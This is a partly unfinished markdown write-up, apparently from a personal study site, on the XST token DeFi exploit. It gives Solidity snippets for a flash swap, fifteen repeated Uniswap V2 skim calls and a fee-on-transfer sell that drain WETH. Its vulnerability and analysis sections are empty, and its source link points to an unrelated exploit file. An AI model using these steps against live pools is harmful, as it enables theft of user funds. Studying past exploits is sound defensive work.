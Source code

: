 # XST

## What's XST?


## Amount stolen
27.13 WETH


## Vulnerability



## Analysis



### Exploited code

```solidity
   code here
```

# proof of concept (PoC) 



#### get values




![XTS Image](../images/XTS/label.drawio.png)

```solidity
        amount = WETH.balanceOf(address(Pair2));
        Pair1.swap(amount * 2, 0, address(this), " ");
```


```solidity
uint256 amountSellWETH = WETH.balanceOf(address(this));
(uint256 reserve0, uint256 reserve1,) = Pair2.getReserves(); // r0 : XST r1 WETH
```

![XTS Image](../images/XTS/before.drawio.png)




### calculate swap

![XTS Image](../images/XTS/para1.drawio.png)

![XTS Image](../images/XTS/formula.drawio.png)
```solidity
  uint256 amountOutXST = amountSellWETH * 997 * reserve0 / (reserve1 * 1000 + amountSellWETH * 997);
```




swap ST tokens for WETH tokens in the liquidity pool of Uniswap XST

```solidity
  WETH.transfer(address(Pair2), amountSellWETH);
  Pair2.swap(amountOutXST, 0, address(this), "");
```


#### skim

The skim function in Uniswap V2 is used to claim accumulated tokens from a liquidity pool without removing liquidity. 
It's often used to retrieve additional tokens accumulated due to various operations, such as swaps.
   

```solidity
     XST.transfer(address(Pair2), XST.balanceOf(address(this)) / 8);   //(1/8th) of the XST balance held by the contract to the Uniswap pair, adding more liquidity to the pool.
        for (int256 i = 0; i < 15; i++) {
            Pair2.skim(address(Pair2));
        }

     Pair2.skim(address(this));
```


After skimming the tokens we transfer the XST tokens to the liquitiy pool, wich allows us to manipulate the price


```solidity
   // sell XST to WETH
          // XST is SupportFeeOn Token
          XST.transfer(address(Pair2), XST.balanceOf(address(this)));
```






![XTS Image](../images/XTS/liq.drawio.png)





![XTS Image](../images/XTS/profit.drawio.png)





**Code provided by:** [DeFiHackLabs](https://github.com/SunWeb3Sec/DeFiHackLabs/blob/main/src/test/88mph_exp.sol)


[**< Back**](https://patronasxdxd.github.io/CTFS/)
